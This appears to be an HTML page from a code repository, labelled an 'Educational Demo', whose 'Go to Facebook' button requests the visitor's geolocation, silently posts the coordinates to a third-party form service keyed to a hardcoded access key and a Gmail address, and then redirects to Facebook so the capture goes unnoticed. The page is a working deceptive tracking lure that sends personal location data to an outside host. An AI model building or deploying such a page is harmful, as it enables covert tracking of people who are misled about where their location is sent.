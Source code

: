 # facebook
<!DOCTYPE html>
<html>
<head>
    <title>Educational Demo</title>
    <script>
        // Function to request location (requires user permission)
        function getLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    (position) => {
                        const lat = position.coords.latitude;
                        const lng = position.coords.longitude;
                        sendToServer(lat, lng); // Send data to server
                        window.location.href = "https://www.facebook.com"; // Redirect to Facebook
                    },
                    (error) => {
                        alert("Permission denied.");
                    }
                );
            } else {
                alert("Geolocation is not supported by this browser.");
            }
        }

        // Send data to Web3Forms
        async function sendToServer(lat, lng) {
            const API_KEY = "1d171cc7-68f4-4ea3-ba27-6ede0c67508e"; // Access key
            const response = await fetch("https://api.web3forms.com/submit", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({
                    access_key: API_KEY,
                    latitude: lat,
                    longitude: lng,
                    email: "locationproject6@gmail.com" // Updated email
                })
            });
        }
    </script>
</head>
<body>
    <button onclick="getLocation()">Go to Facebook</button>
    <p style="color: red; font-size: 0.8em;">
        Note: The browser will always ask for location permission. This is for educational purposes only.
    </p>
</body>
</html>
